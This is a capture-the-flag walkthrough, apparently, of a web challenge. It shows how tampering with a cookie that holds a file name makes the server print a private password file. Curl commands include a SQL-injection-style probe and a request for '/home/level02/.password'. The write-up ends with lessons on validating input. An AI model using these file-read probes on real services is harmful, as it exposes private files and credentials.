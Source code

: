 ## Level 2: validate all types of user input

As the message of the day explains,
the next challenge is a web-based vulnerability.
Let's start by opening the URL to see what the page does:

    curl localhost:8002

The page has a simple form with two input fields:
name and age.
Let's play with that a little bit,
especially by entering invalid values,
and see what happens:
```
curl localhost:8002 -d name=jack
curl localhost:8002 -d name=jack -d age=3
curl localhost:8002 -d name=jack -d age=x
curl localhost:8002 -d age=3
curl localhost:8002 -d name="';select * from users" -d age=x
```

The page greets us back if we enter values in both fields.
That doesn't really help us.
But we haven't checked all possible types of user input.
What about cookies, for example?
Most websites store some data in cookies,
for example a session id,
so that users don't need to login repeatedly.

How do cookies really work?
Cookies are usually set by the server,
by adding a `Set-Cookie` value in the header of an HTTP response.
Once a browser received a cookie,
it will resend it to the server in every future request until it expires,
by setting the exact same value in the `Cookie` header.
That's what a well-behaving browser does.
But nothing prevents us from setting it to something else.

Enough speculation,
let's see if this website uses cookies.
One way to do that is adding the `-v` flag to see detailed output.
A cleaner way is to save the header in a file using the `--dump-header` or its shorter alias `-D`:
```
$ curl localhost:8002 -D header.txt
$ cat header.txt 
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 462
Set-Cookie: user_details=amzyYydipxZeZoVg.txt; Path=/
Server: Werkzeug/0.9-dev Python/2.7.3
Date: Thu, 26 Sep 2013 05:49:09 GMT
```

As you can see the `Set-Cookie` line,
the website sets a cookie with name `user_details`,
and a seemingly random value.
Let's send the cookie back and see what happens:

    curl localhost:8002 --cookie user_details=amzyYydipxZeZoVg.txt

Notice in the response an extra line above the input form:

    <p>127.0.0.1 is using curl/7.21.7 (i686-pc-linux-gnu) libcurl/7.21.7 OpenSSL/1.0.0d zlib/1.2.5 libssh2/1.2.7</p>

Actually this happens to be an information about us, the client:
`127.0.0.1` is our IP address and the text after "is using" is the `User-Agent` string of our "browser", `curl`.

What happens if we are not a well-behaving client and set the cookie to something else?

    curl localhost:8002 --cookie user_details=x

We get a `500 Internal Server Error`.
That doesn't help us much,
but we can do better than shooting randomly.
Notice that the value set by the server looks suspiciously like a filename,
thanks to its `.txt` extension.
What if we set the value to a valid file that actually exists in the filesystem?

    echo hello > /tmp/x
    curl localhost:8002 --cookie user_details=/tmp/x

Sweet! The page prints the contents of the file!
Specifying the real file we're after probably works too:

    curl localhost:8002 --cookie user_details=/home/level02/.password

Bingo!
We managed to misuse the web service to do something it was clearly not intended for:
print the content of a file that's supposed to be private to the owner of the process,
user `level02`.
And we didn't even need to look at the source code!

### Lessons to learn

- Don't trust user input.
  You have to validate all possible kinds of external input:
  form fields, cookies, command line arguments,
  anything your programs might receive from its users.

- Take a long hard look at web services you have ever written.
  What will happen if you feed them with invalid input?
  Are you sure there are no input fields or cookies that can be misused?

